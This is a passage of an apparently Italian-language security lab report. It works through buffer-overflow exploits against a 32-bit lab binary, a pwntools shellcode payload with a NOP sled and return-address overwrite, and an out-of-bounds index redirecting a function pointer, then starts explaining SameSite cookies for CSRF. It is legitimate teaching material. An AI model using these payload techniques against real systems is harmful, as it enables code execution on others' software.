  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX2_cyclic_location.png}
  \caption{Sequenza ciclica in EIP}
\end{figure}

A questo punto non resta che creare il payload, in questo caso un \texttt{echo}:

\begin{lstlisting}[language=Python]
s_code = shellcraft.i386.linux.echo("Hello world!") + shellcraft.i386.linux.exit()
s_code_asm = asm(s_code)

ret_addr = 0xffffcd20 - 535
addr = p32(ret_addr, endian ='little')

nop = asm('nop', arch = 'i386')

payload = b"2\n" + b"A"*1022

payload += nop*(535 - len(s_code_asm) - 64) + s_code_asm + nop*64 + addr

with open("./payload_challenge_extra2", "wb") as f: 
	f.write(payload)
\end{lstlisting}

E attaccare l'applicativo:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX2_success.png}
  \caption{SuccessChX2}
\end{figure}

\subsection{Attaccare il buffer overflow nell'array globale \texttt{ptrs} (versione 32 bit), fare eseguire la funzione \texttt{pat\_on\_back()}}

Sempre nella versione a 32 bit, adesso proviamo ad accedere, mediante l'array del menù principale, alla funzione \texttt{pat\_on\_back()}, contenuta all'interno del puntatore \texttt{p}.

Il nostro obiettivo sarà quello di inserire l'indirizzo di \texttt{pat\_on\_back()} all'interno dell'array \texttt{ptrs}. Questo è possibile andando a fornire in ingresso alla funzione \texttt{read()} un indice tale per cui \texttt{ptrs[indice]} punti al valore di \texttt{p}, che a sua volta punta alla funzione \texttt{pat\_on\_back()}.

La variabile \texttt{p} è all'interno dello stack del main, mentre \texttt{ptrs}, essendo un array globale, si trova nel segmento \texttt{.data}. 

L'indice \texttt{s} per l'operazione \texttt{ptrs[s]} viene calcolato come: \texttt{Indirizzo\_di\_p = Indirizzo\_di\_ptrs + (s * dimensione\_puntatore)}.

Per determinare quindi il valore da inserire come indice, dobbiamo calcolare la distanza tra \texttt{p} e \texttt{ptrs} in questo modo:

\texttt{s = (Indirizzo\_di\_p - Indirizzo\_di\_ptrs) / 4 (byte)}

Otteniamo quindi gli indirizzi di \texttt{p} e di \texttt{ptrs} tramite \texttt{gdb}. Inseriamo un breakpoint prima dell'esecuzione della funzione \texttt{read()}:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX3_breakpoint.png}
  \caption{ptrs break}
\end{figure}

Dopodiché, vanno estratti gli indirizzi di \texttt{p} e di \texttt{ptrs} tramite \texttt{gdb}:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX3_addresses.png}
  \caption{ptrs addresses}
\end{figure}

A questo punto va creato il payload. 

\begin{lstlisting}[language=Python]
p_addr = 0xffffd02c
ptrs_addr = 0x56559094

addr = p_addr - ptrs_addr
addr //= 4

payload = str(addr).encode() + b"\n"

with open("./payload_challenge_extra3", "wb") as f: 
    f.write(payload)

print(f"[+] Payload generato con successo! Contenuto: {payload}")
\end{lstlisting}

Una volta generato il payload, a questo punto non ci resta altro che prelevare l'informazione ed eseguire l'attacco.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX3_success.png}
  \caption{SuccessChX3}
\end{figure}
\chapter{Web Security}

In questo modulo viene trattata la sicurezza web e in particolare i vari attacchi che è possibile effettuare all'interno di pagine web come social network e siti gestionali.

\section{Cookies (CSRF)}

Non appena entriamo nel sito www.example32.com, vengono mostrati tutti i cookie e i loro attributi.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/Cookie.png}
  \caption{Visualizzazione dei cookie}
\end{figure}

Vengono definiti 3 tipi di cookies:
\begin{itemize}
  \item Cookie normali: cookies che non hanno nessuna tipologia di restrizione
  \item Cookie lax: possono essere inviati in qualsiasi contesto, tranne in quello cross-site
  \item Cookie strict: non possono essere inviati in nessun contesto cross-site
\end{itemize}

Vengono definiti 2 scenari:
\begin{itemize}
  \item Richiesta GET di una pagina web
  \item Invio di un form mediante POST
\end{itemize}

\subsection{SameSite Cookies}

Sia la richiesta GET che quella POST all'interno dello stesso sito possono sfruttare tutti e tre le tipologie di cookie.

\begin{figure}[H]
  \centering
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/cookie_samesite_get.png}
    \caption*{Same-Site GET}
  \end{minipage}\hfill
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/cookie_samesite_post.png}
    \caption*{Same-Site POST}
  \end{minipage}
\end{figure}

\subsection{Cross-Site Request}

Per quanto riguarda la richiesta cross-site, i cookie normali e lax possono essere inviati in richieste di tipo GET. In richieste di tipo POST, solamente i cookie normali vengono inviati.
I cookie strict non vengono inviati in nessuno dei due scenari.
Questo perché vengono applicate le restrizioni del parametro SameSite.

\begin{figure}[H]
  \centering
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/cookie_crossSite_get.png}
    \caption*{Cross-Site GET}
  \end{minipage}\hfill
  \begin{minipage}{0.45\textwidth}
    \centering
